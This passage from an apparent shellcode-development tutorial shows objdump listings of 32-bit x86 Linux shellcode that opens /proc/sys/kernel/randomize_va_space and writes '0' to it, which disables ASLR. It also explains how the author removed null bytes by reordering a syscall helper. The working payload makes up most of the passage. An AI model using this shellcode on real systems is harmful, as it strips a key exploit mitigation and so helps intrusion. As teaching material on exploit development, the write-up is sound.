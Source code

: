 ```console
 804807a:       68 6f 63 2f 73          push   $0x732f636f
 804807f:       68 2f 2f 70 72          push   $0x72702f2f
 8048084:       89 e3                   mov    %esp,%ebx
 8048086:       b0 08                   mov    $0x8,%al
 8048088:       e8 17 00 00 00          call   80480a4 <syscallInt>
 804808d:       89 c3                   mov    %eax,%ebx
 804808f:       6a 30                   push   $0x30
 8048091:       89 e1                   mov    %esp,%ecx
 8048093:       31 d2                   xor    %edx,%edx
 8048095:       42                      inc    %edx
 8048096:       b0 04                   mov    $0x4,%al
 8048098:       e8 07 00 00 00          call   80480a4 <syscallInt>
 804809d:       b0 06                   mov    $0x6,%al
 804809f:       e8 00 00 00 00          call   80480a4 <syscallInt>

080480a4 <syscallInt>:
 80480a4:       cd 80                   int    $0x80
 80480a6:       c3                      ret
```

### Removing the Nulls
To fix the problem, the label `syscallInt`, was moved to the top of the code.  
The first instruction was to jump over the call instruction and begin executing the `creat` systemcall. 
+ Since the label syscallInt ends with a `ret`, code execution is returned to were the `syscallInt` function was called from.
+ This changed all the `0x00` bytes to `0xff` bytes since the call was moving backwards in the code.

```console
root# objdump -D offASLR.poly6

offASLR.poly6:     file format elf32-i386


Disassembly of section .text::

08048054 <_start>:
 8048054:       eb 03                   jmp    8048059 <creat>

08048056 <syscallInt>:
 8048056:       cd 80                   int    $0x80
 8048058:       c3                      ret

08048059 <creat>:
 8048059:       31 c0                   xor    %eax,%eax
 804805b:       50                      push   %eax
 804805c:       68 70 61 63 65          push   $0x65636170
 8048061:       68 76 61 5f 73          push   $0x735f6176
 8048066:       68 69 7a 65 5f          push   $0x5f657a69
 804806b:       68 6e 64 6f 6d          push   $0x6d6f646e
 8048070:       68 6c 2f 72 61          push   $0x61722f6c
 8048075:       68 65 72 6e 65          push   $0x656e7265
 804807a:       68 79 73 2f 6b          push   $0x6b2f7379
 804807f:       68 6f 63 2f 73          push   $0x732f636f
 8048084:       68 2f 2f 70 72          push   $0x72702f2f
 8048089:       89 e3                   mov    %esp,%ebx
 804808b:       b0 08                   mov    $0x8,%al
 804808d:       e8 c4 ff ff ff          call   8048056 <syscallInt>
 8048092:       89 c3                   mov    %eax,%ebx
 8048094:       6a 30                   push   $0x30
 8048096:       89 e1                   mov    %esp,%ecx
 8048098:       31 d2                   xor    %edx,%edx
```